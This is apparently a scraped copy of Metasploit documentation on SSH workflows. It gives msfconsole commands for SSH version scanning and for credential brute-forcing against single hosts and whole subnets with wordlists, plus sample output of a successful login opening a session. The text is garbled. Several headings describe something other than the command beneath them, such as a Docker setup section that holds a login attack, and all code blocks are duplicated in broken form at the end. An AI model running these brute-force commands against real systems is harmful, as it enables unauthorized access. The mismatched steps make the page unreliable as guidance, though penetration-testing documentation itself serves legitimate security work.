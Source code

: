 ## SSH Workflows
There are more modules than listed here, for the full list of modules run the `search` command within msfconsole:
```msf
msf6 > search ssh
```

### Lab Environment
It is also possible to use [Docker](https://www.docker.com/). First create a new `Dockerfile`:
```msf
msf6 > use scanner/ssh/ssh_login
msf6 auxiliary(scanner/ssh/ssh_login) > run ssh://test_user:password123@127.0.0.1:2222

[*] 127.0.0.1:2222 - Starting bruteforce
[+] 127.0.0.1:2222 - Success: 'test_user:password123' 'uid=700(test_user) gid=700(test_user) groups=700(test_user),700(test_user) Linux 5a26fe63abef 5.10.25-linuxkit #1 SMP Tue Mar 23 09:27:39 UTC 2021 x86_64 Linux '
[*] SSH session 1 opened (127.0.0.1:57318 -> 127.0.0.1:2222 ) at 2022-04-23 01:25:01 +0100
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Build and run:
```
use auxiliary/scanner/ssh/ssh_version
run ssh://127.0.0.1
```

It should now be possible to test the SSH login from msfconsole:
```
use scanner/ssh/ssh_login
run ssh://known_user@192.168.222.1 threads=50 pass_file=./wordlist.txt
```

### SSH Enumeration
Enumerate SSH version:
```
use scanner/ssh/ssh_login
run ssh://192.168.222.1 threads=50 user_file=./users.txt pass_file=./wordlist.txt
```

### SSH Bruteforce
Brute-force host with known user and password list:
```
use scanner/ssh/ssh_login
run cidr:/24:ssh://user:pass@192.168.222.0 threads=50
run cidr:/24:ssh://user@192.168.222.0 threads=50 pass_file=./wordlist.txt
```

Brute-force credentials:
```
use scanner/ssh/ssh_login
run ssh://user:pass@172.18.102.20
```

Brute-force credentials in a subnet:
```
use scanner/ssh/ssh_login
run cidr:/24:ssh://user:pass@192.168.222.0 threads=50
```

### SSH Login Session
If you have valid SSH credentials the `ssh_login` module will open a Metasploit session for you:
```
use scanner/ssh/ssh_login
run ssh://user:pass@192.168.123.6:2222
```

`msf
msf6 > search ssh
`

`msf
msf6 > use scanner/ssh/ssh_login
msf6 auxiliary(scanner/ssh/ssh_login) > run ssh://test_user:password123@127.0.0.1:2222

[*] 127.0.0.1:2222 - Starting bruteforce
[+] 127.0.0.1:2222 - Success: 'test_user:password123' 'uid=700(test_user) gid=700(test_user) groups=700(test_user),700(test_user) Linux 5a26fe63abef 5.10.25-linuxkit #1 SMP Tue Mar 23 09:27:39 UTC 2021 x86_64 Linux '
[*] SSH session 1 opened (127.0.0.1:57318 -> 127.0.0.1:2222 ) at 2022-04-23 01:25:01 +0100
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
`

`
use auxiliary/scanner/ssh/ssh_version
run ssh://127.0.0.1
`

`
use scanner/ssh/ssh_login
run ssh://known_user@192.168.222.1 threads=50 pass_file=./wordlist.txt
`

`
use scanner/ssh/ssh_login
run ssh://192.168.222.1 threads=50 user_file=./users.txt pass_file=./wordlist.txt
`

`
use scanner/ssh/ssh_login
run cidr:/24:ssh://user:pass@192.168.222.0 threads=50
run cidr:/24:ssh://user@192.168.222.0 threads=50 pass_file=./wordlist.txt
`

`
use scanner/ssh/ssh_login
run ssh://user:pass@172.18.102.20
`

`
use scanner/ssh/ssh_login
run cidr:/24:ssh://user:pass@192.168.222.0 threads=50
`

`
use scanner/ssh/ssh_login
run ssh://user:pass@192.168.123.6:2222
`


